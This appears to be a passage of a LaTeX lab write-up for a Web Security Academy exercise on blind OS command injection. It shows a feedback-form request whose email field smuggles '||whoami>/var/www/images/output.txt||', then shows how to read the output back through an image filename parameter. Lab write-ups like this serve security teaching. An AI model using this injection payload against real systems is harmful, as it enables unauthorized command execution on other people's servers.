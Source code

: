 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
    \begin{lstlisting}[label={lst:blind-original-request},caption={Original request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=potato%40potato.com&subject=potato&message=afsdfsdfsd
    \end{lstlisting}

    \begin{lstlisting}[label={lst:modified-request},caption={Modified request}]
      ...
      csrf=KjqMoomIJ7U33OVTKzTDTGaWMNVwDO1G&name=potato&email=||whoami>/var/www/images/output.txt||&subject=potato&message=afsdfsdfsd
    \end{lstlisting}
    Here the \texttt{>} operator redirects the output of \texttt{whoami} to \texttt{/var/www/images/output.txt}.
    \item Forward the modified request. Successful submission is indicated by the message \texttt{Thank you for submitting feedback!}.
    \item To retrieve the file, navigate to the product page and request the filename parameter corresponding to \texttt{output.txt}.
    \item Example: replace the original image request
    \begin{lstlisting}[label={lst:modified-request},caption={Original image request}]
    GET /image?filename=36.jpg HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}
    with
    \begin{lstlisting}[label={lst:modified-request},caption={Modified image request}]
    GET /image?filename=output.txt HTTP/2
    Host: 0a53005403fa3e2281a86b82005100f1.web-security-academy.net
    \end{lstlisting}

    \newpage
    \item The final result can be observed as shown below.
    \begin{figure}[htbp]
      \centering
      \includegraphics[width=0.7\textwidth]{../figure/figure6.png}
      \caption{Result of Lab 3}
      \label{fig:whoami-result-2}
      \end{figure}


\end{enumerate}
\end{description}
\end{document}
